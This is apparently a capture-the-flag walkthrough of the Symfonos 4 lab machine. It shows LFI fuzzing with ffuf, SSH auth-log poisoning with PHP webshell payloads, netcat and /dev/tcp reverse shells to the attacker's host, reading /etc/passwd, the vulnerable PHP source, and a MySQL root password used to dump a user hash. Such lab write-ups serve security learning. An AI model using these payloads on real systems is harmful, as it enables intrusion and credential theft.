/js/                  (Status: 200) [Size: 947]
/sea.php              (Status: 302) [Size: 0] [--> atlantis.php]
/atlantis.php         (Status: 200) [Size: 1718]
/gods/                (Status: 200) [Size: 1339]

```



### /gods


```shell
wget -q http://$RHOST/gods/{hades,poseidon,zeus}.log

```

```shell
ls -la
total 20
drwxr-xr-x 2 f0c1s f0c1s 4096 Jan  8 10:24 .
drwxr-xr-x 3 f0c1s f0c1s 4096 Jan  8 10:23 ..
-rw-r--r-- 1 f0c1s f0c1s  295 Aug 19  2019 hades.log
-rw-r--r-- 1 f0c1s f0c1s  252 Aug 19  2019 poseidon.log
-rw-r--r-- 1 f0c1s f0c1s  199 Aug 19  2019 zeus.log

```

```shell
wc *.log
  1  54 295 hades.log
  1  45 252 poseidon.log
  1  39 199 zeus.log
  3 138 746 total

```

```shell
cat hades.log
Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.

```

```shell
cat poseidon.log
Poseidon was the god of the sea, earthquakes and horses. Although he was officially one of the supreme gods of Mount Olympus, he spent most of his time in his watery domain. Poseidon was brother to Zeus and Hades. These three gods divided up creation.

```

```shell
cat zeus.log
Zeus is the god of the sky, lightning and thunder in Ancient Greek religion and myth, and king of the gods on Mount Olympus. Zeus is the sixth child of Kronos and Rhea, king and queen of the Titans.

```

Put these lines in a file, get uppercase and lowercase in one single file, attack ssh? Users: hades, poseidon, zeus???

```shell

```

### sea.php



This is backwards. sea.php should be login page, and atlantis.php should be the prize hidden behind that.






## curl


```shell
curl -v --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" http://$RHOST/sea.php?file=hades
*   Trying 192.168.56.93:80...
* Connected to 192.168.56.93 (192.168.56.93) port 80 (#0)
> GET /sea.php?file=hades HTTP/1.1
> Host: 192.168.56.93
> User-Agent: curl/7.80.0
> Accept: */*
> Cookie: PHPSESSID=u0ncuofbfvt9p5nkn694bjr841
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 08 Jan 2022 07:12:01 GMT
< Server: Apache/2.4.38 (Debian)
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 872
< Content-Type: text/html; charset=UTF-8
<
<html>
<head>
<link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
</head>
<body>
<div class="container">
<div class="d-flex justify-content-center align-items-center" style="height:100px;">
  <div class="form-group">
    <select onchange="location = this.value;">
      <option selected="">Select a God</option>
      <option value="?file=hades">Hades</option>
      <option value="?file=poseidon">Poseidon</option>
      <option value="?file=zeus">Zeus</option>
    </select>
  </div>
</div>
<script src="js/bootstrap.min.js"></script>
Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.
</div>
</body>
</html>
* Connection #0 to host 192.168.56.93 left intact

```

```shell
curl -s --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" http://$RHOST/sea.php?file=hades
<html>
<head>
<link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
</head>
<body>
<div class="container">
<div class="d-flex justify-content-center align-items-center" style="height:100px;">
  <div class="form-group">
    <select onchange="location = this.value;">
      <option selected="">Select a God</option>
      <option value="?file=hades">Hades</option>
      <option value="?file=poseidon">Poseidon</option>
      <option value="?file=zeus">Zeus</option>
    </select>
  </div>
</div>
<script src="js/bootstrap.min.js"></script>
Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.
</div>
</body>
</html>

```

```shell
curl -s --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" http://$RHOST/sea.php?file=hades | html2text
[One of: Select a God/Hades/Poseidon/Zeus]
 Hades was the god of the underworld and the name eventually came to also
describe the home of the dead as well. He was the oldest male child of Cronus
and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and
the Titans to end their reign, claiming rulership over the cosmos.

```

## fuzz

```shell
ffuf -u http://$RHOST/sea.php?file=FUZZ -w ./gods.words.txt -fc 403,404,401,400 -b "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" -s -fs 577
hades
poseidon
zeus


```

`-fs` stands for file size of the response, it was 577 bytes for failing (but 200 return) pages.

`-b` is for cookie

```shell
ffuf -u http://$RHOST/sea.php?file=FUZZ -w /usr/share/wordlists/wfuzz/general/big.txt -fc 403,404,401,400 -b "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" -s -fs 577
zeus

ffuf -u http://$RHOST/sea.php?file=FUZZ -w /usr/share/wordlists/wfuzz/general/mutations_common.txt -fc 403,404,401,400 -b "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" -s -fs 577
## nothing

ffuf -u http://$RHOST/sea.php?file=FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -fc 403,404,401,400 -b "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" -s -fs 577
## nothing

ffuf -u http://$RHOST/sea.php?file=FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -fc 403,404,401,400 -b "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" -s -fs 577
zeus
hades

ffuf -u http://$RHOST/sea.php?file=FUZZ -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fc 403,404,401,400 -b "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" -s -fs 577
## nothing

ffuf -u http://$RHOST/sea.php?file=FUZZ -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -fc 403,404,401,400 -b "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" -s -fs 577
## nothing
```

```shell
for dir in `echo "../ ../../ ../../../ ../../../../ ../../../../../ ../../../../../../ ../../../../../../../ ../../../../../../../ ../../../../../../../../" | tr " " "\n"`
do
echo $dir
ffuf -u "http://$RHOST/sea.php?file=${dir}FUZZ" -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fc 403,404,401,400 -b "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" -s -fs 577
done
../

../../

../../../

../../../../
/var/log/auth

../../../../../
/var/log/auth

../../../../../../
/var/log/auth

../../../../../../../
/var/log/auth

../../../../../../../
/var/log/auth

../../../../../../../../
/var/log/auth


```

```shell
for dir in `echo "../ ../../ ../../../ ../../../../ ../../../../../ ../../../../../../ ../../../../../../../ ../../../../../../../ ../../../../../../../../" | tr " " "\n"`
do
echo $dir
ffuf -u "http://$RHOST/sea.php?file=${dir}FUZZ" -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt -fc 403,404,401,400 -b "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" -s -fs 577
done
../

../../

../../../

../../../../

../../../../../

../../../../../../

../../../../../../../

../../../../../../../

../../../../../../../../


```



## RCE via SSH

I have recently seen it.

```shell
ssh '<?php echo passthru("whoami"); ?>'@$RHOST
<?php echo passthru("whoami"); ?>@192.168.56.93's password:


```

```shell
ssh '<?php echo passthru("id"); ?>'@$RHOST
<?php echo passthru("id"); ?>@192.168.56.93's password:


```

```shell
curl -s http://$RHOST/sea.php?file=../../../../var/log/auth --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" | html2text | tail -n5
192.168.56.70 port 41208 [preauth] Jan 8 01:36:24 symfonos4 sshd[2089]: Invalid
user uid=33(www-data) gid=33(www-data) groups=33(www-data) from 192.168.56.70
port 41210 Jan 8 01:36:25 symfonos4 sshd[2089]: Connection closed by invalid
user uid=33(www-data) gid=33(www-data) groups=33(www-data) 192.168.56.70 port
41210 [preauth]
```



Log4shell vuln is still hot, even today (2022.01.08).

[Readup on corrosion#injecting-a-webshell](../corrosion-1/corrosion-1.html#injecting-a-webshell)

## Bricked it?

```shell
ssh '<?php echo passthru("nc 192.168.56.70 443 -e /bin/bash"); ?>'@$RHOST
<?php echo passthru("nc 192.168.56.70 443 -e /bin/bash"); ?>@192.168.56.93's password:


```

```shell
curl -s http://$RHOST/sea.php?file=../../../../var/log/auth --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" | html2text | tail -n5
[One of: Select a God/Hades/Poseidon/Zeus]


```

Reset it! And restore it.

## Webshell

```shell
ssh '<?php system($_GET["cmd"]) ?>'@$RHOST
<?php system($_GET["cmd"]) ?>@192.168.56.93's password:

```

```shell
curl -s "http://$RHOST/sea.php?file=../../../../var/log/auth&cmd=id" --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841" | html2text | tail -n5
[One of: Select a God/Hades/Poseidon/Zeus]
 Jan 8 01:46:32 symfonos4 sshd[733]: Invalid user uid=33(www-data) gid=33(www-
data) groups=33(www-data) from 192.168.56.70 port 41220 Jan 8 01:46:33
symfonos4 sshd[733]: Connection closed by invalid user uid=33(www-data) gid=33
(www-data) groups=33(www-data) 192.168.56.70 port 41220 [preauth]

```

I had to relogin, to get the PHPSESSID into the web session.

## Reverse shell

First came the tries...


```shell
curl -s "http://$RHOST/sea.php?file=../../../../var/log/auth&cmd=bash -i >0 /dev/tcp/192.168.56/70/443 0>&1" --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841"

```

```shell
curl -s "http://$RHOST/sea.php?file=../../../../var/log/auth&cmd=bash -c 'bash -i >0 /dev/tcp/192.168.56/70/443 0>&1'" --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841"

```

```shell
curl -s "http://$RHOST/sea.php?file=../../../../var/log/auth&cmd=nc -nv 192.168.56.70 443 -e /bin/bash" --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841"

```

```shell
curl -s "http://$RHOST/sea.php?file=../../../../var/log/auth&cmd=nc -nv 192.168.56.70 443 -e /bin/sh" --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841"

```

```shell
curl -s "http://$RHOST/sea.php?file=../../../../var/log/auth&cmd=cat /etc/passwd" --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841"

```

I realized, space might be the issue.

```shell
curl -s "http://$RHOST/sea.php?file=../../../../var/log/auth&cmd=cat+/etc/passwd" --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841"
<html>
<head>
<link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
</head>
<body>
<div class="container">
<div class="d-flex justify-content-center align-items-center" style="height:100px;">
  <div class="form-group">
    <select onchange="location = this.value;">
      <option selected="">Select a God</option>
      <option value="?file=hades">Hades</option>
      <option value="?file=poseidon">Poseidon</option>
      <option value="?file=zeus">Zeus</option>
    </select>
  </div>
</div>
<script src="js/bootstrap.min.js"></script>
Jan  8 01:46:32 symfonos4 sshd[733]: Invalid user root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
poseidon:x:1000:1000:,,,:/home/poseidon:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/sbin/nologin
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
 from 192.168.56.70 port 41220
Jan  8 01:46:33 symfonos4 sshd[733]: Connection closed by invalid user root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
poseidon:x:1000:1000:,,,:/home/poseidon:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/sbin/nologin
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
 192.168.56.70 port 41220 [preauth]
</div>
</body>
</html>

```

Space indeed was.

```shell
curl -s "http://$RHOST/sea.php?file=../../../../var/log/auth&cmd=nc+-nv+192.168.56.70+443+-e+/bin/sh" --cookie "PHPSESSID=u0ncuofbfvt9p5nkn694bjr841"

```


```shell
sudo nc -nlvp $LPORT -s $LHOST
Listening on 192.168.56.70 443

Connection received on 192.168.56.93 41102
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
date
Sat Jan  8 01:58:53 CST 2022
hostname
symfonos4

which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@symfonos4:/var/www/html$ ls -la
ls -la
total 152
drwxr-xr-x 5 root root   4096 Aug 19  2019 .
drwxr-xr-x 3 root root   4096 Aug 17  2019 ..
-rw-r--r-- 1 root root   2513 Aug 18  2019 atlantis.php
drwxr-xr-x 2 root root   4096 Aug 17  2019 css
drwxr-xr-x 2 root root   4096 Aug 18  2019 gods
-rw-r--r-- 1 root root 118494 Aug 17  2019 image.jpg
-rw-r--r-- 1 root root    201 Aug 17  2019 index.html
drwxr-xr-x 2 root root   4096 Aug 18  2019 js
-rw-r--r-- 1 root root     39 Aug 17  2019 robots.txt
-rw-r--r-- 1 root root    739 Aug 18  2019 sea.php
www-data@symfonos4:/var/www/html$
```



### sea.php

```php
<?php
session_start();
if(!isset($_SESSION['logged_in'])){
    header("location:atlantis.php");
    die();
}
?>
<html>
<head>
<link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
</head>
<body>
<div class="container">
<div class="d-flex justify-content-center align-items-center" style="height:100px;">
  <div class="form-group">
    <select onchange="location = this.value;">
      <option selected="">Select a God</option>
      <option value="?file=hades">Hades</option>
      <option value="?file=poseidon">Poseidon</option>
      <option value="?file=zeus">Zeus</option>
    </select>
  </div>
</div>
<script src="js/bootstrap.min.js"></script>
<?php
include("gods/". $_GET['file']. '.log');
?>
</div>
</body>
</html>
```

### atlantis.php

```php
<?php
   define('DB_USERNAME', 'root');
   define('DB_PASSWORD', 'yVzyRGw3cG2Uyt2r');
   $db = new PDO("mysql:host=localhost:3306;dbname=db", DB_USERNAME,DB_PASSWORD);

   session_start();

   if($_SERVER["REQUEST_METHOD"] == "POST") {
   $username = $_POST["username"];
   $pwd = hash('sha256',$_POST["password"]);
   //if (!$db) die ($error);
   $statement = $db->prepare("Select * from users where username='".$username."' and pwd='".$pwd."'");
   $statement->execute();
   $results = $statement->fetch(PDO::FETCH_ASSOC);
   if (isset($results["pwd"])){
       $_SESSION['logged_in'] = $username;
       header("Location: sea.php");
   } else {
        $_SESSION["logged_in"] = false;
        sleep(2); // Don't brute force :(
        echo "<br /><center>Incorrect login</center>";
   } }
?>
<html>
<head>
<link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
</head>
<body><br />
<main class="login-form">
    <div class="cotainer">
        <div class="row justify-content-center">
            <div class="col-md-8">
                <div class="card">
                    <div class="card-header">Login</div>
                    <div class="card-body">
                        <form action="atlantis.php" method="post">
                            <div class="form-group row">
                                <label for="username" class="col-md-4 col-form-label text-md-right">Username</label>
                                <div class="col-md-6">
                                    <input type="text" id="username" class="form-control" name="username" required autofocus>
                                </div>
                            </div>

                            <div class="form-group row">
                                <label for="password" class="col-md-4 col-form-label text-md-right">Password</label>
                                <div class="col-md-6">
                                    <input type="password" id="password" class="form-control" name="password" required>
                                </div>
                            </div>

                            <div class="col-md-6 offset-md-4">
                                <button type="submit" class="btn btn-primary">
                                    Login
                                </button>
                            </div>
                    </div>
                    </form>
                </div>
            </div>
        </div>
    </div>
    </div>
</main>

</body>
</html>
```

### mysql

```shell
www-data@symfonos4:/var/www/html$ mysql -uroot -pyVzyRGw3cG2Uyt2r
mysql -uroot -pyVzyRGw3cG2Uyt2r
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 15
Server version: 10.3.15-MariaDB-1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| db                 |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.005 sec)

MariaDB [(none)]> use db;
use db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [db]> show tables;
show tables;
+--------------+
| Tables_in_db |
+--------------+
| users        |
+--------------+
1 row in set (0.000 sec)

MariaDB [db]> desc users;
desc users;
+----------+------+------+-----+---------+-------+
| Field    | Type | Null | Key | Default | Extra |
+----------+------+------+-----+---------+-------+
| username | text | YES  |     | NULL    |       |
| pwd      | text | YES  |     | NULL    |       |
+----------+------+------+-----+---------+-------+
2 rows in set (0.004 sec)

MariaDB [db]> select * from users;
select * from users;
+----------+------------------------------------------------------------------+
| username | pwd                                                              |
+----------+------------------------------------------------------------------+
| admin    | b674f184cd52edabf2c38c0142452c0af7e21f71e857cebb856e3ad7714b99f2 |
+----------+------------------------------------------------------------------+
1 row in set (0.001 sec)

MariaDB [db]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| db                 |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.001 sec)

MariaDB [db]> use mysql
use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mysql]> show tables;
show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| column_stats              |
| columns_priv              |
| db                        |
| event                     |
| func                      |
| general_log               |
| gtid_slave_pos            |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| index_stats               |
| innodb_index_stats        |
| innodb_table_stats        |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| roles_mapping             |
| servers                   |
| slow_log                  |
| table_stats               |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| transaction_registry      |
| user                      |
+---------------------------+
31 rows in set (0.002 sec)

MariaDB [mysql]> desc user;
desc user;
+------------------------+-----------------------------------+------+-----+----------+-------+
| Field                  | Type                              | Null | Key | Default  | Extra |
+------------------------+-----------------------------------+------+-----+----------+-------+
| Host                   | char(60)                          | NO   | PRI |          |       |
| User                   | char(80)                          | NO   | PRI |          |       |
| Password               | char(41)                          | NO   |     |          |       |
| Select_priv            | enum('N','Y')                     | NO   |     | N        |       |
| Insert_priv            | enum('N','Y')                     | NO   |     | N        |       |
| Update_priv            | enum('N','Y')                     | NO   |     | N        |       |
| Delete_priv            | enum('N','Y')                     | NO   |     | N        |       |
| Create_priv            | enum('N','Y')                     | NO   |     | N        |       |
| Drop_priv              | enum('N','Y')                     | NO   |     | N        |       |
| Reload_priv            | enum('N','Y')                     | NO   |     | N        |       |
